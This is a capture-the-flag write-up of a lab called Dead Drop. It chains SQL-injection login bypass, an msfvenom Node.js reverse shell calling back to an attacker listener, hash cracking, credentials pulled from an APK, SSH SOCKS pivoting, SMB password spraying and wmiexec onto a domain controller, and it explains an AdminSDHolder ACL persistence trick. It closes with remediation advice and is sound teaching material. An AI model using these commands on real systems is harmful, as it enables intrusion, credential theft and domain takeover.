

## Overview

Dead Drop is two boxes wearing a trenchcoat. Out front there's a single web server in a DMZ; behind it, a Windows domain you can't reach until you've owned that web server and turned it into a doorway. Almost none of the work is a clever one-shot exploit — it's credential-hunting and pivoting, one scrap of loot leading to the next.

The path keeps changing shape, which is the fun of it. SQL injection gets us past the login. The file manager behind it takes any upload you throw at it, so the reflex is a PHP webshell — except that does nothing here, because the backend is Node, and a `.php` file is just text to it. A Node reverse shell fired through the app's own *Preview* button drops a shell as the `node` user. After that it's a scavenger hunt: a shadow backup left in the web root cracks to give `svc-drop` over SSH, and `svc-drop`'s home hides a mobile APK with a domain password baked into it. Tunnel through the box, throw those creds at the internal subnet, and the domain controller comes back `Pwn3d!`.


### Tools used

| Stage | Tools |
|-------|-------|
| Recon | `nmap` |
| Web exploitation | browser, Burp Suite |
| Foothold | `msfvenom` (`nodejs/shell_reverse_tcp`), `rlwrap` + `nc` |
| Looting & cracking | `john`, `sqlite3` / `strings`, `scp`, `apktool` |
| Pivoting | `ssh -D`, `proxychains`, `nxc` (NetExec) |
| Domain access | `impacket-wmiexec` |

---

## Enumeration

### Port scan

The room hands you the target IPs, so the first scan is just a liveness check across them.

```bash
sudo nmap -Pn -n 192.168.11.51,100,200
```

```text
Nmap scan report for 192.168.11.51
All 1000 scanned ports on 192.168.11.51 are in ignored states.

Nmap scan report for 192.168.11.100
All 1000 scanned ports on 192.168.11.100 are in ignored states.

Nmap scan report for 192.168.11.200
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Only `.200` answers on anything — SSH and HTTP. The other two are up but filtered from where we're sitting. `.100` is the domain controller, and we won't touch it until we're inside. So everything starts on the web server, and SSH stays useless until a password shows up.

### The web application

Port 80 is a file-sharing app behind a login. The response header settles the stack before we do anything else: `X-Powered-By: Express`. That's Node, not the PHP app the UI wants you to assume — and it's the reason the obvious upload attack later needs a rethink. File that away.

---

## Initial Access

### SQL injection at the login

The login is the only door, so it gets the first real poke. Close the string in the username field, comment out the rest of the query:

```http
POST /login HTTP/1.1
Host: 192.168.11.200
Content-Type: application/x-www-form-urlencoded

username=admin'--&password=admin
```

```http
HTTP/1.1 302 Found
X-Powered-By: Express
Location: /dashboard
Set-Cookie: connect.sid=s%3A...; Path=/; HttpOnly
```

`admin'--` chops off the trailing `AND password = ...`, the query matches the `admin` row no matter what we send as a password, and we get a `302` to `/dashboard` with a live session cookie.

### The file manager, and why PHP is a trap

The dashboard is a file manager: an upload form, and a table of files with *Preview*, *Rename*, and *Delete* buttons.



Unrestricted upload, so the muscle-memory move is a PHP webshell. Doesn't work — request the uploaded `.php` and you get its source back, because there's no PHP interpreter anywhere near an Express app. That `X-Powered-By: Express` header already warned us. Whatever we upload has to be something the Node process will actually run.

> Match the payload to the runtime, not to habit. An unrestricted upload is only RCE if the server *runs* what you hand it — a PHP shell on a Node host just sits there as text.
{: .prompt-tip }

### Node.js reverse shell via Preview

`msfvenom` already ships a Node payload, so there's nothing to hand-write:

```bash
msfvenom -p nodejs/shell_reverse_tcp LHOST=<x.x.x.x> LPORT=4444 -f raw -o shell.js
```

Upload it, start a listener, then hit *Preview* on the file — previewing makes the server evaluate it as Node instead of just streaming the bytes back at us:

```bash
rlwrap nc -lvnp 4444
```

```text
Connection received on 192.168.11.200 42342
```

Upgrade to a real TTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
node@tryhackme-2404:/opt/app$ whoami
node
```

We're `node`, sitting in `/opt/app`.

### Looting the application directory

The app's own directory is always the first place I look on a web foothold, and this one pays out fast.

```bash
node@tryhackme-2404:/opt/app$ ls
app.js  backup  db  node_modules  package-lock.json  package.json  public  uploads  views
```

A `backup/` folder in a web root is already a smell. Inside it, a copy of the system shadow file that has no reason to exist:

```bash
node@tryhackme-2404:/opt/app/backup$ cat shadow.bak
svc-drop:$6$<REDACTED-sha512crypt-hash>:19700:0:99999:7:::
```

One account, `svc-drop`, `$6$` sha512crypt. Straight into John:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```text
<SVC_DROP_PW>   (svc-drop)
1g 0:00:00:57 DONE ... sha512crypt
```

Cracked in 57 seconds. SSH has been open the whole time, so that shaky in-app shell becomes a proper session:

```bash
ssh svc-drop@192.168.11.200
```

The `db/` directory holds the SQLite database behind the login. Running strings over it coughs up two more credential pairs, an `admin` and an `svc-backup`:

```text
admin       : <ADMIN_DB_PW>
svc-backup  : <SVC_BACKUP_PW>
```

Neither goes anywhere useful, but a login form storing passwords in cleartext is a finding on its own, so it goes in the notes.

### The real pivot artifact: a mobile APK

The loot that matters is in `svc-drop`'s home: a `backup/` folder with `deaddrop-mobile.apk` in it. App builds are a reliable place to find hardcoded backend secrets, so it comes back to my box for a look:

```bash
scp svc-drop@192.168.11.200:/home/svc-drop/backup/deaddrop-mobile.apk .
```

A quick `strings` shows `default_username`/`default_password` keys, which is promising enough to unpack it properly and read the resource values:

```bash
apktool d deaddrop-mobile.apk
grep -r "username\|password" ./
```

```xml
<string name="default_username">j.harris</string>
<string name="default_password"><J_HARRIS_PW></string>
```

Domain credentials for `j.harris`, sitting in cleartext in the APK's string table. The password rides the same "Drops of Jupiter" naming joke as the `svc-drop` one from earlier — same theme, different value, not actual reuse. Either way, it's our way onto the internal network.

> **User access** — `svc-drop` over SSH is the first flag; the APK is what carries us across into the domain.
{: .prompt-info }

---

## Pivoting to the Domain

`svc-drop`'s host has a foot on the internal network, but my attacking machine can't route to the DC on `.100` on its own. A dynamic SSH tunnel is the quickest fix — `ssh -D` opens a SOCKS proxy through the session, and `proxychains` shoves the AD tooling through it.

```bash
ssh -D 9050 svc-drop@192.168.11.200
```

> Turn on `proxychains` quiet mode and disable `proxy_dns` in `/etc/proxychains.conf`. The default DNS-over-SOCKS behaviour spews timeout noise that makes a subnet sweep unreadable.
{: .prompt-tip }

### Spraying the internal subnet

The room brief already lists the target IPs, but sweeping the whole `/24` with the `j.harris` creds is cheap insurance — nothing hiding, and it tells us where the account is actually good:

```bash
proxychains nxc smb 192.168.11.0/24 -u j.harris -p '<J_HARRIS_PW>'
```

```text
SMB  192.168.11.250  445  IP-192-168-11-250  [*] Unix - Samba (domain:eu-west-1.compute.internal)
SMB  192.168.11.100  445  DEADDROP-DC        [*] Windows Server 2019 Build 17763 (domain:deaddrop.loc) (signing:True)
SMB  192.168.11.250  445  IP-192-168-11-250  [+] ...\j.harris:<J_HARRIS_PW> (Guest)
SMB  192.168.11.100  445  DEADDROP-DC        [+] deaddrop.loc\j.harris:<J_HARRIS_PW> (Pwn3d!)
```

`DEADDROP-DC` on `deaddrop.loc` comes back `Pwn3d!` — NetExec's way of saying the account has admin on the box. `j.harris` isn't just valid on the DC, it owns it.

### Landing on the DC

Admin creds on the DC means a WMI shell is enough to walk in:

```bash
proxychains impacket-wmiexec deaddrop.loc/j.harris:'<J_HARRIS_PW>'@192.168.11.100
```

```text
C:\>whoami
deaddrop\j.harris
```

The token explains the `Pwn3d!` — `j.harris` is in Domain Admins *and* ITSupport-Admins:

```text
GROUP INFORMATION
-----------------
DEADDROP\Domain Admins       Group  ...512   Enabled group
DEADDROP\ITSupport-Admins    Group  ...1104  Enabled group
```

---

## Privilege Escalation — the intended path

Here's the awkward bit. In the lab state I landed in, `j.harris` was already Domain Admin, so `wmiexec` handed me an admin shell with nothing left to escalate. That's not the point of the room, though — Dead Drop is question-driven, and one question asks flat out which AD permission your account holds that can be abused. The answer's on the box, not in the shell.

Whoever built it left a `setup.ps1` on the DC, and its comments lay out the whole trick:

```powershell
# Phase 4: Grant j.harris the AddMember ACE on ITSupport-Admins
#
# BloodHound renders the "AddMember" edge when the source has WriteProperty
# on the target group's `member` attribute. We grant exactly that.
#
# Member attribute schema GUID: bf9679c0-0de6-11d0-a285-00aa003049e2
#
# ITSupport-Admins is nested inside Domain Admins, so AD marks it adminCount=1.
# Every 60 minutes SDPROP resets the ACL on every adminCount=1 object to match
# the AdminSDHolder template — wiping our custom ACE. Writing the same ACE to
# AdminSDHolder means SDPROP propagates it instead of removing it.
```

So the abusable right is `AddMember` — a `WriteProperty` ACE scoped to the `member` attribute of ITSupport-Admins, and nothing wider. Because that group is nested inside Domain Admins, a `j.harris` who held *only* that one ACE could add itself to ITSupport-Admins and inherit Domain Admin through the nesting. No exploit, no malware, just a single attribute write. BloodHound would draw it as an `AddMember` edge straight from `j.harris` to the group.

What makes that comment worth reading is the AdminSDHolder note. Privileged groups get their ACLs stomped back to a template every hour by SDPROP, which normally *reverts* a planted ACE like this one — so the author had to write the same ACE into the AdminSDHolder template to get it propagated instead of wiped. It's the kind of detail that separates a realistic lab from a toy one.

We can't reset the lab ourselves, so there's no clean re-run to be had — stripping my own group memberships just to abuse the ACE from scratch buys nothing. Admin shell's already open. Grab the flag:

```powershell
C:\>type C:\Users\Administrator\Desktop\flag.txt
THM{...}
```

> **Root flag** — `THM{...}`, on the Administrator's desktop on `DEADDROP-DC`.
{: .prompt-info }

---

## Conclusion

Dead Drop turns a web compromise into a domain compromise, with the DMZ host as the hinge:

1. **SQL injection at the login** — an unparameterised query let `admin'--` skip authentication.
2. **Runtime-mismatched upload** — the upload accepted anything, but only became RCE once the payload matched the Node backend; a `msfvenom` Node shell fired via *Preview* gave a shell as `node`.
3. **Secrets in the web root** — a shadow backup and a cleartext SQLite credential store, both parked inside the app directory.
4. **Weak password** — `svc-drop`'s hash fell to `rockyou.txt` in under a minute, upgrading the web shell to SSH.
5. **Hardcoded credentials in a mobile build** — `deaddrop-mobile.apk` shipped `j.harris`'s domain password in its resources, which is what got us across into the network.
6. **Over-permissive group ACL** — `j.harris`'s `AddMember` right over ITSupport-Admins, a group nested in Domain Admins, is a one-write path from a normal user to the whole domain.

Every one of these is something "internal" that nobody bothered to protect because nobody expected it to be reachable — a backup, a database, an app build, a support group. The DMZ web host being wired into both networks is what quietly turns each of them into a rung on the ladder.

### Remediation notes

- Parameterise every authentication query; never build SQL by gluing user input into a string.
- Restrict uploads to an allow-list, store them off any executable path, and make *Preview*-style handlers stream bytes instead of evaluating files.
- Keep shadow backups, database files, and other secrets out of the web application's directory entirely.
- Never hardcode backend or domain credentials in a mobile app — they ship to every phone and `apktool` reads them in seconds.
- Give service accounts passwords that won't fall to `rockyou.txt`; that single hash is the line between a contained web compromise and a domain one.
- Audit `AddMember`/`WriteProperty`/`GenericWrite` rights on privileged and nested groups with BloodHound regularly, and don't hand ordinary accounts write access to the membership of anything nested under Domain Admins.
- Segment the DMZ properly — an internet-facing web host has no business holding reusable domain credentials or a clear path to the DC.
